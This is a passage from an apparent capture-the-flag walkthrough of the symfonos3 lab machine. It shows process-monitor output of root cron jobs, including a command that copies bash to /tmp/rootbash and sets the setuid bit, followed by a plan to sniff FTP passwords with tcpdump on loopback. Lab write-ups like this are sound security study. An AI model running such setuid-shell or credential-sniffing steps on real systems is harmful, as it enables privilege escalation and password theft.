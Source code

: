 
		 ██▓███    ██████  ██▓███ ▓██   ██▓
		▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
		▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
		▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
		▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
		▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
		░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
		░░       ░  ░  ░  ░░       ▒ ▒ ░░  
					   ░           ░ ░     
								   ░ ░     
	...
	2022/02/04 00:40:02 CMD: UID=0    PID=10519  | /bin/sh -c /usr/bin/python2.7 /opt/ftpclient/ftpclient.py 
	2022/02/04 00:40:02 CMD: UID=0    PID=10520  | /usr/bin/python2.7 /opt/ftpclient/ftpclient.py 
	2022/02/04 00:40:02 CMD: UID=0    PID=10521  | cp /bin/bash /tmp/rootbash 
	2022/02/04 00:40:02 CMD: UID=0    PID=10522  | 
	2022/02/04 00:40:02 CMD: UID=0    PID=10523  | /usr/sbin/CRON -f 
	2022/02/04 00:40:02 CMD: UID=105  PID=10524  | /usr/sbin/sendmail -i -FCronDaemon -B8BITMIME -oem root 
	2022/02/04 00:40:02 CMD: UID=1000 PID=10525  | /usr/sbin/exim4 -Mc 1nFsGI-0002jj-38 
	2022/02/04 00:41:01 CMD: UID=0    PID=10526  | /usr/sbin/CRON -f 
	2022/02/04 00:41:01 CMD: UID=0    PID=10527  | /usr/sbin/CRON -f 
	2022/02/04 00:41:01 CMD: UID=0    PID=10528  | /bin/sh -c /usr/bin/curl --silent -I 127.0.0.1 > /opt/ftpclient/statuscheck.txt 
	2022/02/04 00:41:25 CMD: UID=0    PID=10529  | /bin/sh /sbin/dhclient-script 
	2022/02/04 00:41:25 CMD: UID=0    PID=10530  | run-parts --list /etc/dhcp/dhclient-enter-hooks.d 
	2022/02/04 00:41:25 CMD: UID=0    PID=10531  | /bin/sh /sbin/dhclient-script 
	2022/02/04 00:42:01 CMD: UID=0    PID=10533  | /usr/sbin/CRON -f 
	2022/02/04 00:42:01 CMD: UID=0    PID=10532  | /usr/sbin/cron -f 
	2022/02/04 00:42:01 CMD: UID=0    PID=10534  | /usr/sbin/CRON -f 
	2022/02/04 00:42:01 CMD: UID=0    PID=10535  | /usr/sbin/CRON -f 
	2022/02/04 00:42:01 CMD: UID=0    PID=10537  | /bin/sh -c /usr/bin/curl --silent -I 127.0.0.1 > /opt/ftpclient/statuscheck.txt 
	2022/02/04 00:42:01 CMD: UID=0    PID=10536  | /bin/sh -c /usr/bin/python2.7 /opt/ftpclient/ftpclient.py 
	2022/02/04 00:42:01 CMD: UID=0    PID=10538  | /usr/bin/python2.7 /opt/ftpclient/ftpclient.py 
	2022/02/04 00:42:01 CMD: UID=0    PID=10539  | cp /bin/bash /tmp/rootbash 
	2022/02/04 00:42:01 CMD: UID=0    PID=10540  | sh -c cp /bin/bash /tmp/rootbash; chmod u+s /tmp/rootbash 
	2022/02/04 00:42:01 CMD: UID=0    PID=10541  | /usr/sbin/CRON -f 
	2022/02/04 00:42:01 CMD: UID=105  PID=10542  | /usr/sbin/sendmail -i -FCronDaemon -B8BITMIME -oem root 
	2022/02/04 00:42:01 CMD: UID=1000 PID=10543  | /usr/sbin/exim4 -Mc 1nFsID-0002k1-7a 
	```
	- There are actually 2 cronjobs 
		1. `/bin/sh -c /usr/bin/python2.7 /opt/ftpclient/ftpclient.py` 
			- Executed every 2 minute
			- `ftpclient.py` could be accessing `FTP`, sniffing FTP traffic could reveal passwords
		2. `/bin/sh -c /usr/bin/curl --silent -I 127.0.0.1 > /opt/ftpclient/statuscheck.txt `
			- Executed every minute
1. Sniff FTP traffic w/ `tcpdump`
	```
	# Specify Loopback Interface (127.0.0.1)
	cerberus@symfonos3:/var/log/proftpd$ tcpdump port 21 -i lo 
	```